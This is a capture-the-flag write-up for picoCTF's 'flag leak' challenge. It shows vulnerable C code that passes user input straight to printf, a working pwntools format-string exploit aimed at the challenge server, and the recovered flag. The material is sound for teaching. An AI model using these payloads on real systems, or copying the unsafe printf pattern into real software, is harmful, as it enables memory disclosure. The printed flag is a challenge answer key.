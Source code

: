 # flag leak
#### Write-up author: [jon-brandy](https://github.com/jon-brandy)
## DESCRIPTION:
Story telling class 1/2 
I'm just copying and pasting with this [program](https://github.com/jon-brandy/CTF-WRITE-UP/blob/0782a0d972e244a18c82cbc1c62c2d363bef0c61/Asset/flag%20leak/vuln). what can go wrong? You can view source [here](https://github.com/jon-brandy/CTF-WRITE-UP/blob/0782a0d972e244a18c82cbc1c62c2d363bef0c61/Asset/flag%20leak/vuln.c). 
And connect with it using: `nc saturn.picoctf.net 63788`
## HINT:
1. Format Strings
## STEPS:
1. First, download both files given.
2. Next, let's check the `program`'s file type.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/189511862-1198436f-b5f9-4742-ac12-504e6a9905a4.png)

3. Notice, it's a 32 bit file and not stripped, so we can see the functions name
4. Now check the file protection.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/189511913-7206d52a-f6da-4424-afa0-76d84d31a802.png)

5. **No canary found** and **no pie**. So they will keep the same memory location.
6. Now let's run the program but make it executable first by run -> `chmod +x vuln`.

> RUN

![image](https://user-images.githubusercontent.com/70703371/189511953-8c084cba-c734-4129-940c-7e4a117602fa.png)

7. Let's create `flag.txt` file first, then run the program again.

![image](https://user-images.githubusercontent.com/70703371/189511980-4beb33e4-5c09-4b38-81d2-24d07714d14c.png)

![image](https://user-images.githubusercontent.com/70703371/189512037-78b9c5a6-0361-4196-9105-95ee2676d144.png)


8. Hmm let's analyze the source code.

> VULN.C

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64

void readflag(char* buf, size_t len) {
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,len,f); // size bound read
}

void vuln(){
   char flag[BUFSIZE];
   char story[128];

   readflag(flag, FLAGSIZE);

   printf("Tell me a story and then I'll tell you one >> ");
   scanf("%127s", story);
   printf("Here's a story - \n");
   printf(story);
   printf("\n");
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  return 0;
}
```

9. Based from the hint, the vuln is right here.

![image](https://user-images.githubusercontent.com/70703371/189512352-4d32c0ce-1a45-4283-a707-b42eb5506808.png)

10. We can exploit that, for example i input `%x`.

> %x

![image](https://user-images.githubusercontent.com/70703371/189512371-6a223b61-821e-421e-a488-fbb88c209726.png)

11. Maybe with a delimiter, since the `scanf` function does not specify the `%[^\n]`.

> WITH DELIMITER

![image](https://user-images.githubusercontent.com/70703371/189512570-b094ecb1-f917-4284-843e-e941d52f4928.png)


12. But the memory addresses we recieve is the `%x.%`, which is our input.

> USING PWNTOOLS

```py
from pwn import *

value = p32(0x252e7825)
print(value)
```

> OUTPUT

![image](https://user-images.githubusercontent.com/70703371/189512608-4aad9a0d-a14d-461c-b4b9-a22047626236.png)

13. Also notice here, few memory addresses are repeated.
14. Since it's a stack, maybe we can climb up to the `flag` variable.
15. So let's input our own local flag.

> I INPUT bctf{FLAG} at flag.txt

16. Run the program again, but this time input the `%x` with delimiter as many as you want until you see a different address pattern.

> RUN

![image](https://user-images.githubusercontent.com/70703371/189512833-307357b3-eed3-40e5-9fa6-aadcad688aba.png)

17. We got different address pattern now.

![image](https://user-images.githubusercontent.com/70703371/189512842-bc917436-4fb8-4160-95c5-85c2efbbdf33.png)

18. Let's copy the first memory address of the newly created pattern and convert it to strings using [this](https://www.rapidtables.com/convert/number/hex-to-decimal.html) online tools

> USING ONLINE TOOLS

![image](https://user-images.githubusercontent.com/70703371/189513131-a30687d8-a034-4745-a1fd-ce26ff10f7d6.png)

19. It must be our local flag then.
20. The conclusion is, this is a `FORMAT STRINGS ATTACK`.
21. For this solution, i made a python script to do the format strings attack.

```py
from pwn import *
import os

os.system('clear')

for i in range(256): # 129 + 64 + 64
    sh = remote('saturn.picoctf.net', 63788)
    sh.recvuntil(b'>')
    sh.sendline('%' + str(i) + '$s')
    print(sh.recvuntil(b'-')) 
    print(i) # print the iteration
    print(sh.recv()) # print the value
    
    sh.close # close the session if i == 255
```

22. At the 24th iteration we got the flag!

![image](https://user-images.githubusercontent.com/70703371/189513593-259e30b4-05f4-4925-8ab4-994d8f65f62c.png)


## FLAG

```
picoCTF{L34k1ng_Fl4g_0ff_St4ck_c2e94e3d}
```



## LEARNING REFERENCES:

```
https://owasp.org/www-community/attacks/Format_string_attack
```



